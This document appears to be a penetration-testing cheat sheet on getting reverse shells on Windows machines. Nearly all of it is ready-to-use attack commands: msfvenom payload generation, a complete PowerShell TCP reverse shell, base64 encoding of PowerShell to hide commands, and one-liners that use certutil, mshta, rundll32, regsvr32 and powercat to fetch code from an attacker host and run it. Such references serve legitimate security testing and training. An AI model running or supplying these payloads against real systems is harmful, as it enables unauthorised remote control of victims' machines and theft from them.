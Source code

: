 # Create reverse shell from code execution on Windows machine

First, you create reverse shell executable with msfvenom.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o rev.exe
```

Then you'll host your executable with some http server (in this example I'll use python's http.server).

```
sudo python3 -m http.server 80
```

Now you can setup your listener (multi/handler or normal netcat listener).

And lastly from target Windows machine you'll execute certutil.

```
cmd.exe /C certutil -urlcache -split -f http://<LHOST>/rev.exe rev.exe
```

For more: https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/


## Windows one-liners

```text
https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
```

## powershell.exe

```powershell
$client = New-Object System.Net.Sockets.TCPClient("LHOST",LPORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```
$client = New-Object System.Net.Sockets.TCPClient("LHOST",LPORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```text
# serve shell.ps1
python3 -m http.server <port>

# execute on target
powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://<LPORT>/shell.ps1\");"
```

### Creating encoded powershell commands on linux

```text
echo -n "IEX (New-Object Net.WebClient).downloadstring('<thing_to_execute>')" | iconv --to-code UTF-16LE | base64 -w 0
```

## mshta.exe

Runs .hta \(HTML Application\) files

```text
# first, we generate hta-psh file with msfvenom
msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f hta-psh -o <file>.hta

# then we start server
python3 -m http.server <port>

# and run command on target host
mshta.exe http://<LHOST>:<port>/<file>.hta
```

```text
use exploit/windows/misc/hta_server

mshta.exe http://<attacker>/<path>.hta
```

## rundll32.exe

```text
# first, we generate dll file with msfvenom
msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f dll -o <file>.dll

# serve a file throught smb
sudo python3 ../smbserver.py -smb2support -user <user> -password <pass> <share> `pwd`

# execute on target
rundll32.exe \\<lhost>\<share>\<file>.dll,0
```

```text
use exploit/windows/smb/smb_delivery

rundll32.exe \\<attacker>\<path>\<file>.dll,0
```

## regsrv32.exe

```text
use exploit/multi/script/web_delivery

regsvr32 /s /n /u /i:http://<attacker>:<p>/<file>.sct scrobj.dll
```

## certutil.exe

```text
msfvenom -p windows/meterpreter/reverse_tcp lhost=<lhost> lport=<lport> -f exe > shell.exe

# host generated file
python3 -m http.server 80

# start listener (exploit/multi/handler)

certutil.exe -urlcache -split -f http://<target>/shell.exe shell.exe & shell.exe
```

## powershell.exe \(with powercat\)

```text
git clone https://github.com/besimorhino/powercat.git
python -m SimpleHTTPServer 80

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<attacker>/powercat.ps1');powercat -c <attacker> -p <port> -e cmd"
```

## more ...

```text
https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
```

